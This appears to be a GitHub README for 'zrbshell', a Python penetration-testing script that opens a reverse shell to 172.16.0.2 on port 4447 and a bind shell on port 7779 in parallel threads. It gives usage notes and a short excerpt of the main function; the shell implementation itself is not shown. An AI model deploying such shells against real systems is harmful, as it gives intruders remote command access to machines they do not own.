 # zrbshell
Reverse &amp; Bind Shell, Multithreaded

This script could be used on some case of Pentesting. It creates two threads one for reverse shell and another for bind shell. 
To change the IPs, Ports, go to the main function, and adjust the parameters of the objects : ZRSH and ZBSH.

#====================================================================
if __name__=='__main__':

	ready_threads = []

	try:

		start_sending = threading.Event()
		
		rsh = ZRSH ( '172.16.0.2', 4447, start_sending)
		bsh = ZBSH ( 7779, start_sending)
		...
		...
		...

#====================================================================

Enjoy !